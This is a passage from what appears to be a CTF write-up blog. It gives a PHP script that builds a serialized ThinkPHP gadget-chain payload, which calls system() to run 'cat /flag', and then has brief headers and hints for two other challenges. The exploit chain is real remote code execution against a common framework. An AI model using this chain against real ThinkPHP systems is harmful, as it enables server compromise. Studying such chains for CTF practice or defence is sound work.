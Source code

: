 [https://xz.aliyun.com/t/10396](https://xz.aliyun.com/t/10396)

```php
<?php
namespace think{
    abstract class Model{
        use model\concern\Attribute;  //因为要使用里面的属性
        private $lazySave;
        private $exists;
        private $data=[];
        private $withAttr = [];
        public function __construct($obj){
            $this->lazySave = True;
            $this->withEvent = false;
            $this->exists = true;
            $this->table = $obj;
            $this->data = ['key'=>'cat /flag'];
            $this->visible = ["key"=>1];
            $this->withAttr = ['key'=>'system'];
        }
    }
}

namespace think\model\concern{
    trait Attribute
    {
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
    }

    $a = new Pivot('');
    $b = new Pivot($a);
    echo urlencode(serialize($b));
}
```

![image-20221222121937047](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212221219132.png)

## [BSidesCF 2020]Hurdles

![image-20221222123705006](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212221237077.png)

## [羊城杯 2020]Easyphp2

主页文件包含, cookie 先改成 `pass=GWHT`
